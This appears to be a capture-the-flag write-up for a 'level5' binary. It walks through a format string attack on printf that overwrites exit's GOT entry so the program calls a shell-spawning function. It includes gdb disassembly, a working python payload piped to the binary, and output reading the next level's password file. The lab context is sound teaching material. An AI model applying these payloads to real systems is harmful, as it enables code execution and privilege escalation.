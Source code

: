 ## Press printf's f for fun and profit episode III (level5)

This level's [binary](source.c) still does the same thing as the last ones. It
takes user input and prints it back to stdin. The input buffer is also directly
given to printf, which means we can once again perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).
However this time there is no _m_ value to be set. All we have in our function
_n_, after our insecure printf call, is an exit. There is also an other
function, _o_, declared in the binary which calls system and spawns a shell.

We must obviously find a way to call the _o_ function. The only entry point we
have after the printf call is - ironically - our exit call. The call instruction
refers to an address where the function resides. If we could rewrite the call
instruction to point to _o_ or to make the exit address point to it, this would
do the trick.

One way to do this is through the
[got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.

So first we get the GOT address of the exit function:

```shell
# run gdb on level5
gdb ./level5
# print the exit call we want to overwrite in the n function
(gdb) disass n
... # lines removed for clarity
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
# then the got address
(gdb) x/3i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```

This would be _0x8049838_ here. We can test that the exploit could work by
setting this address' value to the address of the function _o_.

```shell
# get o's address
(gdb) i addr o
Symbol "o" is at 0x80484a4 in a file compiled without debugging.
# break on the exit call
(gdb) b *0x080484ff
(gdb) run
Starting program: /home/user/level5/level5
random input
random input

Breakpoint 1, 0x080484ff in n ()
# now replace the exit's got address with o
(gdb) set *0x8049838 = 0x80484a4
(gdb) c
Continuing.
# here we are (well still at level5, but theoretically it works)
$ whoami
level5
```

This works. So the goal now is to do it though the format string attack on the
printf call. This is basically the same exploit as is in the last level except
that the _m_ address is replaced with exit's got address.

We start getting to our buffer from the fourth conversion:

```
./level5
aaaabbbbccccddddeeeefghijklm %p %p %p %p
aaaabbbbccccddddeeeefghijklm 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161
```

Now we simply adapt the last level's exploit for this binary:

```shell
# feed the exploit payload to the binary
(python -c 'print "\x08\x04\x84\x7f"[::-1] + 4 * "a" + "\x08\x04\x98\x38"[::-1] + "%p%p%p%0*p%n"'; cat) | ./level5
# it works ;)
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The first four bytes are the length to add to printfs's return value to return
_o_'s address. After the padding we have the location of exit's got address and
finally the format string to pop our values from the stack.
